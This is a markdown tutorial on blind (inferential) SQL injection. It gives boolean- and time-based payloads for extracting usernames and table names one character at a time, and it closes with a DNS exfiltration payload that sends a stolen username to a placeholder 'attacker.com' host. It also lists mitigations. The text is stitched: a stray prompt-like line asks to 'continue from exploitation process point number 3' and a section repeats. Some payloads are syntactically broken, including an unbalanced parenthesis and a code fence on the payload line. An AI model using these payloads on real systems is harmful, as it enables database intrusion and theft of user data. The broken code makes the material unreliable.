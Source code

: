 

# Inferential SQL Injection (Blind SQLi)

Inferential SQL Injection, also known as Blind SQLi, is a type of attack where the attacker can't see the direct results of their injection but can infer information by observing the application's behavior.

## Key Characteristics

1. **No direct output**: Unlike classic SQLi, there's no visible database output
2. **Boolean-based**: Inference through true/false responses
3. **Time-based**: Inference through response delays

## Common Attack Techniques

### Boolean-Based Blind SQLi
```sql
' AND 1=1 -- 
' AND 1=2 -- 
```

### Time-Based Blind SQLi
```sql
'; IF (1=1) WAITFOR DELAY '0:0:5' -- 
'; IF (1=2) WAITFOR DELAY '0:0:5' -- 
```

## Detection Methods

1. Observe differences in responses to true/false conditions
2. Measure response times for time-based payloads
3. Look for changes in HTTP status codes or error messages

## Exploitation Process

1. Identify injectable parameters
2. Determine backend database type
3. Craft conditional queries to extract data bit by bit:
continue from exploitation process point number 3


## Exploitation Process (continued)

3. **Craft conditional queries to extract data bit by bit**:
   - For Boolean-based: Use logical conditions to infer data character by character
     ```sql
     ' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a' -- 
     ```
   - For Time-based: Use delays to confirm character matches
     ```sql
     '; IF (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1) = 'a') WAITFOR DELAY '0:0:5' -- 
     ```

4. **Systematically extract information**:
   - Database version
   - Table names
   - Column names
   - Actual data records

5. **Automate the process**:
   - Use tools like SQLmap for efficient exploitation
   - Script custom attacks for specific scenarios

## Example Boolean-Based Attack Pattern

```sql
' AND (SELECT ASCII(SUBSTRING((SELECT TOP 1 table_name FROM information_schema.tables),1,1))) > 100 -- 
```

## Example Time-Based Attack Pattern

```sql
'; IF (SELECT ASCII(SUBSTRING((SELECT TOP 1 table_name FROM information_schema.tables),1,1))) > 100 WAITFOR DELAY '0:0:5' -- 
```

## Mitigation Strategies

1. **Use prepared statements with parameterized queries**
2. **Implement proper input validation**
3. **Apply principle of least privilege for database accounts**
4. **Configure proper error handling** (don't reveal database errors)
5. **Use Web Application Firewalls (WAFs)** to detect and block injection attempts

## Advanced Techniques

- Combine Boolean and Time-based approaches for reliability
- Use bit-shifting techniques for faster data extraction
- Exploit DNS exfiltration in restricted environments:
  ```sql
  '; DECLARE @data VARCHAR(1024); SELECT @data = (SELECT TOP 1 username FROM users); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"') -- ```
